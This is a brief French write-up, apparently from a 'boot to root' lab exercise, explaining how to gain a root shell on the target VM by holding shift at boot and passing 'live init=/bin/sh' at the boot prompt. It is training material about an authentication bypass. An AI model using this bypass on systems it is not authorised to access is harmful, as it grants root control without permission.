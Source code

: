 # writeup3

Comme le projet s'appelle boot to root, ce serait bien d'utiliser un `boot exploit`.
\
Pour cela, il suffit de tenir la touche `shift` enfoncée durant le démarrage de la VM,
jusqu'a ce que le prompt boot s'affiche sur la fenetre.
\
Puis on rentre la commande suivante:
```
$ live init=/bin/sh
$ whoami
root
```

Et voilà, nous sommes root !
